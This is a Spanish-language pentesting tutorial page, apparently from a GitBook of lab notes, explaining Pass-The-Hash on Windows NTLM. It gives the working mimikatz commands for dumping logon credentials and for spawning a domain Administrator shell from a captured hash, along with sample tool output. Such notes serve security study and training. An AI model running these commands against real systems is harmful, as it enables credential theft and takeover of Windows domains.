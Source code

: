 ```yaml
---
icon: passport
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pass-The-Hash con Windows

Esta tecnica consiste en el protocolo de autenticacion `NTLM` con sus dichos `hashes` este protocolo de autenticacion es menos seguro que el de `kerberos`, pero cuando nosotros nos conectamos de forma remota o nos conectamos mediante una `IP` y no mediante un dominio en muchos casos pasara autenticarse mediante el protocolo `NTLM` pero si lo hacemos atraves de un dominio, podremos hacerlo mediante `kerberos`, por lo que con `NTLM` al ser menos seguro podremos realizar este tipo de tecnicas que vamos a ver ahora.

A dia de hoy se sigue utilizando a nivel local, pero podremos especificar a `Windows` que no queremos este tipo de autenticacion de una forma, pero no es muy recomendable, ya que muchas maneras de autenticacion pueden deshabilitarse y dar problemas.

Si nosotros hemos obtenido las credenciales del `Administrador` del dominio por ejemplo mediante las `logon sessions` utilizando `mimikatz` como hemos visto anteriormente:

```powershell
sekurlsa::logonpasswords
```

Info:

```
Authentication Id : 0 ; 7531224 (00000000:0072ead8)
Session           : Interactive from 0
User Name         : Administrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 20/01/2025 10:23:12
SID               : S-1-5-21-3352250647-938130414-2449934813-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a87f3a337d73085c45f9416be5787d86
         * SHA1     : 34957e9ba3455a4a99d722b48693ac1123ba5dba
         * DPAPI    : b937fc9669fa922df0050d0d2f6d5de4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

Hemos intentado `crackear` el `hash` `NTLM` pero pongamos que no hemos obtenido exito.

Pero lo que si podemos hacer es realizar un `Pass-The-Hash` con `mimikatz` utilizando el `hash` del `Administrador` de la siguiente forma:

```powershell
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:a87f3a337d73085c45f9416be5787d86
```

Lo que va hacer `mimikatz` es crear una nueva `logon session` dentro de esta maquina (Ya que somos `administradores` locales de esta maquina) va a sobreescribir el `hash` que haya asociada a ella en memoria por este `hash` del usuario `administrador`, despues va a copiar el `Token de acceso` que tenemos asociado a este proceso y se lo va añadir tambien a esta `logon session`, y una vez echo eso va a ejecutar una `cmd` como dicho usuario.

Info:

```
user    : Administrator
domain  : corp.local
program : cmd.exe
impers. : no
NTLM    : a87f3a337d73085c45f9416be5787d86
  |  PID  3448
  |  TID  3228
  |  LSA Process is now R/W
  |  LUID 0 ; 7674536 (00000000:00751aa8)
  \_ msv1_0   - data copy @ 00000224E7C04E80 : OK !
  \_ kerberos - data copy @ 00000224E7D777C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 00000224E7679D38 (32) -> null
```

Y veremos algo asi:

<figure><img src="../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Y con esto ya tendremos un `cmd` como el usuario `Administrador` del dominio.
